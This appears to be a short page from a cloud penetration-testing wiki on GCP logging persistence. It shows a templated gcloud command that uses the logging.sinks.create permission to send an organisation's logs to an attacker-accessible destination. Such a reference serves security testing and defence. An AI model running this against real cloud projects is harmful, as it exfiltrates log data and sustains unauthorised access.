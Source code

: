 # GCP - Logging Persistence

## Logging

Find more information about Logging in:

[[../gcp-services/gcp-logging-enum.md]]

### `logging.sinks.create`

Create a sink to exfiltrate the logs to an attackers accessible destination:

```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```

